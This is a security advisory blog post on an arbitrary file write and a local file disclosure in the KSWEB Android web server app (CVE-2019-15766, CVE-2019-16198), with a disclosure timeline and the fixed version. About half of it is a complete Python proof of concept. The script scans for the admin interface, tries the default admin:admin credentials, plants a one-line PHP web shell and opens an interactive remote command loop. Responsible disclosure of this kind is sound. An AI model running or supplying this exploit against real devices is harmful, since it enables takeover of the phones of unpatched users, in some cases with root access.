 ```yaml
---
layout: post
title: KSWEB for Android Remote Code Execution
date: 2019-10-02
categories:
  - android
  - mobile
  - security
tags:
  - CVE-2019-15766
  - CVE-2019-16198
  - ksweb
  - web-server
  - php
  - rce
  - lfi
image: /assets/images/2019-10-02-ksweb-android-remote-code-execution/ksweb-shell.jpg
---
```

KSWEB is an Android application used to allow an Android device to act as a web server. Bundled with this mobile application, are several management tools with one-click installers which are installed with predefined sets of credentials.

One of the tools, is a tool developed by the vendor of KSWEB themselves; which is KSWEB Web Interface. This web application allows authenticated users to update several core settings, including the configuration of the various server packages.

As can be seen in the screenshot below (which also shows a local file disclosure via the `hostFile` parameter), the selected file is made visible in a text editor and the changes can be saved by clicking the button in the top right corner of the editor.

![](/assets/images/2019-10-02-ksweb-android-remote-code-execution/lfi.png)

When the save button is hit, a request is sent to the AJAX handler, like this:

```http
POST /includes/ajax/handler.php HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Content-Length: 1912
Authorization: Basic YWRtaW46YWRtaW4=
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: cors
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8002
Sec-Fetch-Site: same-origin
Referer: http://localhost:8002/?page=5
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

act=save_config&configFile=%2Fdata%2Fdata%2Fru.kslabs.ksweb%2Fcomponents%2Fmysql%2Fconf%2Fmy.ini&config_text=**long config file content ommitted*
```

As can be seen in the above request, the full path to the file being written to is found in the `configFile` field. As there is no whitelist of files that can be written to, and due to the write permissions of the KSWEB Web Interface application directory not being restricted, it is possible to use this to write a PHP file to the `/data/data/ru.kslabs.ksweb/components/web/www/` directory, which will provide command execution.

Additionally, KSWEB supports running as root, meaning that if the user has allowed access as root, full control of the device can be gained via this vulnerability, as can be seen in the screenshot of the PoC below:

![](/assets/images/2019-10-02-ksweb-android-remote-code-execution/ksweb-shell.jpg)

Play Store Installs
-------------------
100,000+

Play Store Link
---------------
[https://play.google.com/store/apps/details?id=ru.kslabs.ksweb&gl=GB](https://play.google.com/store/apps/details?id=ru.kslabs.ksweb&gl=GB)

Solution
--------
Upgrade to version 3.94 or later

CVSS v3 Vector
--------------
[AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N/E:P/RL:W/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N/E:P/RL:W/RC:R)

Disclosure Timeline
-------------------
- **2019-08-27**: Vulnerability found, vendor contacted
- **2019-08-27**: CVE requested
- **2019-08-29**: CVE-2019-15766 assigned for the RCE
- **2019-08-29**: Vendor responded to confirm issue will be being fixed in an update
- **2019-09-10**: CVE-2019-16198 assigned for the LFD vulnerability
- **2019-09-21**: Contact vendor to check status of patch
- **2019-10-01**: Version 3.94 released to fix vulnerabilities

Proof of Concept
----------------
```python
import requests
import sys

from requests.auth import HTTPBasicAuth

BOLD = '\033[1m'
GREEN = '\033[92m'
FAIL = '\033[93m'
RESET = '\033[0m'

if len(sys.argv) < 2:
    print 'Usage: python {file} target_ip [username] [password]'.format(file = sys.argv[0])
    sys.exit(1)

username = sys.argv[2] if len(sys.argv) > 2 else 'admin'
password = sys.argv[3] if len(sys.argv) > 2 else 'admin'
host = sys.argv[1]

base_url = ''

def print_action (msg):
    print '{b}{g}[+]{r} {msg}'.format(b = BOLD, g = GREEN, r = RESET, msg = msg)

def print_error (msg):
    print '{b}{f}[!]{r} {msg}'.format(b = BOLD, f = FAIL, r = RESET, msg = msg)

def run_cmd (cmd, hide_output = False):
    r = requests.get('{b}/ksws.php?1={c}'.format(b = base_url, c = cmd), auth=(username, password))

    if not hide_output:
        print r.text.rstrip()

    return r.status_code == 200

print '  _  __ _______          ________ ____     _____ _          _ _ '
print ' | |/ // ____\\ \\        / /  ____|  _ \\   / ____| |        | | |'
print ' | \' /| (___  \\ \\  /\\  / /| |__  | |_) | | (___ | |__   ___| | |'
print ' |  <  \\___ \\  \\ \\/  \\/ / |  __| |  _ <   \\___ \\| \'_ \\ / _ \\ | |'
print ' | . \\ ____) |  \\  /\\  /  | |____| |_) |  ____) | | | |  __/ | |'
print ' |_|\\_\\_____/    \\/  \\/   |______|____/  |_____/|_| |_|\\___|_|_|\n'

port = 8000

print_action('Scanning for WebFace port...')
while port < 8100:
    try:
        r = requests.get('http://{h}:{p}'.format(h = host, p = port))
        if r.status_code == 401 and 'for KSWEB' in r.headers['Server']:
            print_action('Found WebFace on port {p}'.format(p = port))
            break
        else:
            port = port + 1
    except:
        port = port + 1


base_url = 'http://{h}:{p}'.format(h = host, p = port)

try:
    print_action('Testing credentials ({u}:{p})...'.format(u = username, p = password))
    r = requests.get(base_url, auth=(username, password))

    if r.status_code != 200:
        print_error('The specified credentials ({u}:{p}) were invalid'.format(u = username, p = password))
        sys.exit(1)
except:
    print_error('An error occurred connecting to the host')
    sys.exit(2)

print_action('Uploading web shell...')
r = requests.post('{b}/includes/ajax/handler.php'.format(b = base_url), auth=(username, password), data={
        'act': 'save_config',
        'configFile': '/data/data/ru.kslabs.ksweb/components/web/www/ksws.php',
        'config_text': '<?=`$_GET[1]`?>'
    })

print
run_cmd('uname -a')
run_cmd('pwd')

while True:
    cmd = raw_input('$: ')
    if cmd.lower() == 'exit':
        break
    else:
        run_cmd(cmd)

print

print_action('Cleaning up...')
if not run_cmd('rm /data/data/ru.kslabs.ksweb/components/web/www/ksws.php'):
    print_error('Failed to delete the web shell from the target')

```
